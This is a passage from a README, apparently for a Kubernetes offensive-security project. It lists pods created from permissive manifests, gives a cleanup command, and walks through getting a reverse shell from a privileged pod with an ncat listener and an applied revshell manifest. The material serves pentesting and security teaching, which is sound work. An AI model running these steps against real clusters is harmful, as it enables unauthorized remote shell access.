```
```

View all of the created pods
```
kubectl get pods

NAME                                                  READY   STATUS    RESTARTS   AGE
everything-allowed-exec-daemonset-qbrdb               1/1     Running   0          52s
everything-allowed-exec-deployment-6cd7685786-rp65h   1/1     Running   0          51s
everything-allowed-exec-deployment-6cd7685786-m66bl   1/1     Running   0          51s
everything-allowed-exec-job-fhsbt                     1/1     Running   0          50s
everything-allowed-exec-pod                           1/1     Running   0          50s
everything-allowed-exec-replicaset-tlp8v              1/1     Running   0          49s
everything-allowed-exec-replicaset-6znbz              1/1     Running   0          49s
everything-allowed-exec-replicationcontroller-z9k8n   1/1     Running   0          48s
everything-allowed-exec-replicationcontroller-m4648   1/1     Running   0          48s
everything-allowed-exec-statefulset-0                 1/1     Running   0          47s
everything-allowed-exec-statefulset-1                 1/1     Running   0          42s
```
Delete all everything-allowed resources
```
find manifests/everything-allowed/ -name "*-exec-*.yaml" -exec kubectl delete -f {} \;
```

### Create a reverse shell using the privileged pod
Set up listener
```
ncat --ssl -vlp 3116
```

Create pod from local yaml without modifying it by using env variables and envsubst
```
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/priv/pod-priv-revshell.yaml | kubectl apply -f -
```
Catch the shell 
```
ncat --ssl -vlp 3116
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116

Connection received on 10.0.0.162 42035
```

# Contributing
Pull requests and issues welcome.

# Acknowledgements 
Thank you [Rory McCune](https://twitter.com/raesene), [Duffie Cooley](https://twitter.com/mauilion), [Brad Geesaman](https://twitter.com/bradgeesaman), [Tabitha Sable](https://twitter.com/tabbysable), [Ian Coldwater](https://twitter.com/IanColdwater), [Mark Manning](https://twitter.com/antitree), [Eviatar Gerzi](https://twitter.com/g3rzi), and [Madhu Akula](https://twitter.com/madhuakula) for publicly sharing so much knowledge about Kubernetes offensive security. 

